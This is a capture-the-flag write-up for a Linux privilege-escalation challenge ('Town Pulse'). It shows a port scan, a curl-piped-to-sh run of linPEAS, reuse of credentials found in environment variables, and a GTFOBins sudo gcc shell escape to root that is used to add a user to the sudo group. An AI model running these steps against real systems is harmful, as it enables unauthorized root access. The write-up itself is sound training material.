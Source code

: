 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerable configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>
ssh: connect to host <ip> port 22: Connection refused
```

Ah, ok why tho. Let's check what ports are open and services running:

```bash
nmap -sV <ip>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:19 AEDT
Nmap scan report for <ip>
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
 
```

Switching ports

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for that "privesc" as it's call in "the biz":

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0  805k    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

```

... etc etc ... 

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?  
HOME=/home/Pentester 
LOGNAME=Pentester
JOAN_TEMPORARY_CREDS=jojocreds1
```
 
Well well well. For reasons mysterious there are temp creds for another user in the environment variables of our account. 

Let's try SSHing into their account and see what permissions they have. Fingers crossed they're in `sudo` group and we can use their privilege to escalate ours **sinister laugh**. 

What's our target account though? 

```bash
ls /home
Joan  Pelski  Pentester  Shedra  user
```

Spoiler alert: it's the Joan account. Let's try to ssh into their account with the creds. 

```bash

ssh Joan@localhost 
Joan@localhost's password: <enter creds>
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Nov 28 22:51:34 2024 from 127.0.0.1

```

**lowers sunglasses** We're in!

---

### Step 2: Priv Esc

See what groups Joan's in

```bash
groups
Joan sudo
```

Good, good, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Blerg! Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Thanks wizard teammate 🧙 10 seconds, one command, and a URL later: 

The command: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

The URL: https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that GTOFbin command now

```bash
sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

😍 

Now we can give our Pentester account sudo powers

```bash
sudo usermod -aG sudo Pentester
exit
exit
exit
```

There we logged out of root, Joan, and Pentester, then sshed back in to the latter and to apply the new group memberships. Check those

```bash
ssh -p 2222 Pentester@<ip>
groups
Pentester sudo
```

Huzzah! Now what commands can we run as sudo?

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Interesting this one, as the commands are limited to those Joan had. Wasn't expecting that. 

Run that GTFOBin again with our account

```bash
Pentester@host:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

Privilege escalated.

---

### Step 3: Flag Retrieval

Now the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first:

```bash
# find / -name flag.txt -type f
/root/flag.txt
```

Then

```bash
# cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Reflections

- Ask teammates for help when you get blocked. Difficult for you can be easy for them and vice versa. 
- As a team, set up some tools in comms (like a thread for each challenge) to share progress and artefacts for challenges so someone can pick up from where someone else is stuck.
- Linpeas and gftobins are l337h4x0r was to privesc on linux. 🫶

---


